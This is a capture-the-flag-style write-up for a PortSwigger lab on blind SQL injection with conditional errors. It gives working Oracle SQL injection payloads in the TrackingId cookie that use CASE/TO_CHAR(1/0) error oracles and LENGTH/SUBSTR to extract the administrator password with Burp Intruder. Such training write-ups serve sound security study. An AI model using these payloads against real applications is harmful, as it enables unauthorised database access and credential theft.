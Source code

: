 # Write-up: Blind SQL injection with conditional errors
Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors>  
Difficulty: PRACTITIONER  
 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

We modify the TrackingId cookie to `8okDmnJXHtEDseY5'`, which gives us the response `Internal Server Error`.
If we add double quotes at the end of the cookie, we get the successful response. This means that their is a syntax error in the SQL query and we can use this to exploit with SQL injection.

We use the string concatenation to add a conditional error statement to the query.
`TrackingId=8okDmnJXHtEDseY5'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users)--`, this gives error `Internal Server Error` and `TrackingId=8okDmnJXHtEDseY5'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM users)--` gives no error. This means we get error response for true condition and no error for false condition.

### Exploitation

We will check the length of the password of the user `administrator` by using LENGTH function.
`TrackingId=8okDmnJXHtEDseY5'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`. Using intruder we can set payload and grep match to `Internal Server Error` and check for the length of the password. Which comes out to be 20.

Now we will check the password of the user `administrator` by using the `SUBSTRING` function. 
`8okDmnJXHtEDseY5'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

We can automate this using Burpsuite Intruder. Here we set the payload to `§1§` and its type to numbers and from 1-20 and load the characters for 2nd payload to alphanumberic. We also set the Match grep in settings to `Internal Server Error` to get the response.

This gives us the password `g2paa7yjicr3ebq10z9c` and we can now login as administrator.

Hence, the lab is sovled.

![alt text](img/2.png)